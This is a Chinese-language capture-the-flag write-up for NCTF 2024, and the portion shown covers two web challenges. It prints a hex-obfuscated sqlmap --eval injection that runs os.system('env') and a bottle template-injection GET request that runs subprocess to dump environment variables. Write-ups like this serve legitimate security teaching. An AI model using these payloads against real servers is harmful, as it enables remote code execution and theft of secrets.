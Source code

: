 ```yaml
---
title: NCTF 2024 不知道 WP
date: 2025-04-14 18:13:44
tags: [cry,web,re,pwn,misc]
categories: wp
typora-root-url: ./..
---
```


# 战队名：不知道

**排名：6**

成员：LamentXU、Jerrythepro123、lianjin、Liv

## ![](/images/1742736030430-b261e9ef-7633-418b-a3ba-ea5ac98f12ca.png)

## WEB

拉门特许超级无敌详细版：

> https://www.cnblogs.com/LAMENTXU/articles/18799383

### sqlmap-master

签到题。

sqlmap有个--exec可以执行。直接执行会有编码问题（我也不知道为什么）。但是可以用fromhex绕

payload：

> 127.0.0.1?id=1 --eval=exec(bytes.fromhex('5F5F696D706F72745F5F28276F7327292E73797374656D2827656E762729'))

### ez_dash

我是第一个报告非预期的（大声）

根本不需要污染。bottle里<%也可以执行，waf没禁完。

直接打abort回显。秒了。

> GET /render?path=<%%20from%20bottle%20import%20abort%0afrom%20subprocess%20import%20getoutput%0aa=getoutput("env")%0aabort(404,a)%20%>
